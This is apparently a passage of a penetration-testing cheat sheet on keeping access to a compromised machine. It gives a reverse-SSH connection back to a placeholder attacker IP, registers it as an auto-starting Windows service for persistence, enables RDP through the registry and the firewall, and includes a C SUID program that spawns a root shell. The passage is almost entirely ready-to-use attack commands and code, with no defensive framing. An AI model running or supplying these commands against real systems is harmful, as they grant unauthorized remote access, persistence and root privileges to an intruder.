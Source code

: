 ```shell
	nohup ./reverse-sshx64 -p 22 -b [Attacker_Port] whatever@[Attacker_IP] &
# Windows:
	1. Start-Process -FilePath "[Path_To_revSSH]" -ArgumentList "-p 22 -b [Attacker_Port] whatever@[Attacker_IP]" -NoNewWindow
	2. # Completely detach from session
		1. sc.exe create ssh binPath= "[Path_To_revSSH] -p 22 -b [Attacker_Port] whatever@[Attacker_IP]" start=auto
		2. sc.exe start ssh
# Attacker Machine
ssh -p [Chosen_Attacker_Port] whatever@127.0.0.1
sftp -P [Chosen_Attacker_Port] whatever@127.0.0.1
```
### RDP
- Privileged Access Required
```powershell 
# Enable RDP
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
# Sometimes the RDP connection may be blocked by Windows Firewall
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
```
### SUID Binary
```C
#include <unistd.h>
int main(void){ 
	setresuid(0, 0, 0); 
	system("/bin/bash"); 
}
```
